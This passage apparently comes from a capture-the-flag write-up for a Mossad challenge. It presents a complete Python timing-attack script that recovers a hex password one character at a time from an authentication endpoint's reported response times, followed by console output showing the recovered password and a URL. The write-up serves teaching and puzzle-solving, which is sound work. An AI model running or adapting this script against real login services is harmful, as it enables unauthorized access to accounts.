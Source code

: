 We got a consistent "8" twice in a row, with a large delta from the next runner-up. This means that we're on the right track.

The following script will extract the complete password:
```python
import requests
import string
import json
import sys

def send_request(payload):
    headers = {'User-Agent': 'ed9ae2c0-9b15-4556-a393-23d500675d4b'}
    r = requests.post("http://35.246.158.51:8070/auth/v1_1", json={"Seed":"b27098b891ae4eb29b3d57b8f0b1279d", "Password": payload}, headers = headers)
    j = json.loads(r.text)
    return j


def timing_attack():
    password = ""
    sys.stdout.write("Progress: ")
    sys.stdout.flush()
    while True:
        l = []
        for c in '1234567890abcdef':
            r = send_request(password + c + "#")
            if r["IsValid"]:
                return (r, password + c)
            l.append((r["Time"], c))
        s = sorted(l, reverse = True)
        new_char = s[0][1]
        sys.stdout.write(new_char)
        sys.stdout.flush()
        password += new_char
    return None

if __name__ == "__main__":
    (response, password) = timing_attack()
    print ("\nPassword: {}".format(password))
    print ("URL: {}".format(response["LockURL"]))
```

Note that we're only trying lowercase HEX characters, since from the first few results it seems as though the password is lowercase HEX. This allowed running much faster. If this assumption would have been found to be incorrect, we would have tried iterating over `string.printable`.

The output:
```console
root@kali:/media/sf_CTFs/mossad/1# python timing.py
Progress: 81c4727e019d42e49fe9bcca9b2b0c8
Password: 81c4727e019d42e49fe9bcca9b2b0c8c
URL: http://3d375032374147a7865753e4bbc92682.xyz/c76de3be5d23447e95d498aeff4ca5fc
```
